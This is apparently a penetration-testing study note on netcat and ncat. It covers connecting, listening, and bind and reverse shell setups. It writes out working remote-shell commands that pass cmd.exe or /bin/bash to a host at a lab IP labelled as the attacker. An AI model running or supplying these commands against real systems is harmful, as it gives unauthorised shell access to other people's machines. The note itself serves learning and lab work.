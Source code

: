 ```yaml
---
description: >-
  Purpose? - To establish connections on open ports and create listening ports
  on local machine | REVERSE SHELL Section in development
---
```


# Netcat/Ncat

#### This tool allows us to bind to a given port of a given IP address. It is of help when trying to send files between machines, developing exploit payloads that would serve a backdoor on a target.

The scope of this document limits to a discussion of how to use [netcat](https://nc110.sourceforge.io/)/[ncat ](https://nmap.org/ncat/)to connect to clients and serve opening ports

#### Connecting vs Listening

To attempt to establish a connection with TCP port:

```bash
nc -nv [destination ip] [destination port]
```

To listen on TCP port:

```text
nc -nvlp 4444
```

## Bind Shell: Attacker connects to a victim on listening PORTS

1. On Windows Machine - set netcat/ncat to listen on 4444/TCP:

   Once Netcat is running 'cmd line:' prompt will appear; we will pass it the command line executable.

   `nc -nvlp 4444 -e cmd.exe`

2. On Linux Machine - set netcat to connect to 4444/TCP:

   `nc -nv 192.168.2.1 4444 -e /bin/bash`

**In the Bind Shell case described in 1 & 2 the Windows machine is the victim that has been set up to listen on 4444/TCP**

## Reverse Shell: Victim connects to attacker on listening PORTS

This is the one you will be using the most

1. On Linux Machine - set netcat to listen on 4444/TCP:

   `nc -nvlp 4444`

2. On Windows Machine - connect to 192.168.2.130 machine on 4444/TCP:

   `C:\nc64.exe`

**Once Netcat is running 'Cmd line:' prompt will appear, using the -e switch, we pass the command line executable "cmd.exe" to the destination host:**

`Cmd line: -nv 192.168.2.130 4444 -e cmd.exe`

## [What is ncat?](https://nmap.org/ncat/)

It's just a modern implementation of netcat by the authors of nmap. They describe it as: 

"_Ncat is a feature-packed networking utility which reads and writes data across networks from the command line. Ncat was written for the Nmap Project as a much-improved re-implementation of the venerable_ [_Netcat_](http://sectools.org/tool/netcat/)_. It uses both TCP and UDP for communication and is designed to be a reliable back-end tool to instantly provide network connectivity to other applications and users. Ncat will not only work with IPv4 and IPv6 but provides the user with a virtually limitless number of potential uses._"

```groovy
  .       .       
  \`-"'"-'/       
   } 6 6 {        
  ==. Y ,==       
    /^^^\  .      
   /     \  )     
  (  )-(  )/     _
  -""---""---   / 
 /   Ncat    \_/  
(     ____        
 \_.=|____E       
```

